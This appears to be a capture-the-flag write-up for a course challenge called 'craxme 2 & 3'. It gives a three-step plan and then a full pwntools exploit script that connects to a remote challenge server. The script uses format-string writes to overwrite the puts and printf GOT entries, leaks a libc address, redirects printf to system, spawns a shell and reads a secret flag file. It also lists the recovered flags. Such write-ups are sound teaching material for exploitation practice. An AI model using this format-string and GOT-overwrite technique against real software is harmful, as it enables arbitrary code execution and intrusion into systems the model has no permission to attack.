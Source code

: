 # Week 6 practice
## craxme 2 & 3 100
* First `fmt` -> Overwrite `puts` got with `0x400747` for many times of `fmt`, and also leak `libc`.
* Second `fmt` -> Overwrite `printf_GOT` with `system`.
* Third time `printf( Input )` -> `system( Input )` -> `system( "sh" )`.

```python
#!/usr/bin/env python2
# -*- coding: ascii -*-
from pwn import *

# FLAG{JUST CRAXME!@_@}
# FLAG{this is the second flag!!!! >_<}
# FLAG{YOUF0UNDtheSECRETFL4G!?}

e = ELF('./craxme-2da5957de53a93b4bc9ffb4e46c8bf287df0376c')

context.arch = 'amd64'

host , port = 'csie.ctf.tw' , 10134

y = remote(host,port)
#y = process( './craxme' )
#print util.proc.pidof( y )
#raw_input( '...' )

#p = '%.218x%8$n......' + p64(0x60106c)
#p = '%45068c%10$hn%19138c%11$hn......' + p64(0x60106c) + p64(0x60106c + 2)

p = '%11$n%64c%12$hn%1799c%13$hnyuawn%14$s...' + p64( e.got['puts'] + 4 ) + p64( e.got['puts'] + 2 )+ p64( e.got['puts'] ) + p64( e.got['__libc_start_main'] )
y.sendlineafter( ':' , p )

y.recvuntil( 'yuawn' )
__libc_start_main = u64( y.recv(6).ljust( 8 , '\x00' ) )
log.success( '__libc_start_main -> %s' % hex( __libc_start_main ) )
system = __libc_start_main + 0x24c50
log.success( 'system -> %s' % hex( system ) )

print hex( system & 0xffffffff )

a = ( system & 0xffff )
b = ( system & 0xffff0000 ) >> 16

print hex( a ) , hex( b )

sleep( 3 )

if a < b:
    p = '%{}c%12$hn%{}c%13$hn'.format( str( a ) , str( b - a ) )
    p += '.' * ( 40 - len( p ) )
    p += p64( e.got['printf'] ) + p64( e.got['printf'] + 2 )
else:
    p = '%{}c%12$hn%{}c%13$hn'.format( str( b ) , str( a - b ) )
    p += '.' * ( 40 - len( p ) )
    p += p64( e.got['printf'] + 2 ) + p64( e.got['printf'] )

y.sendline( p )

y.sendline( 'sh;' )

sleep( 1 )

y.sendline( 'cat /home/`whoami`/S3cretflag' )

y.interactive()
```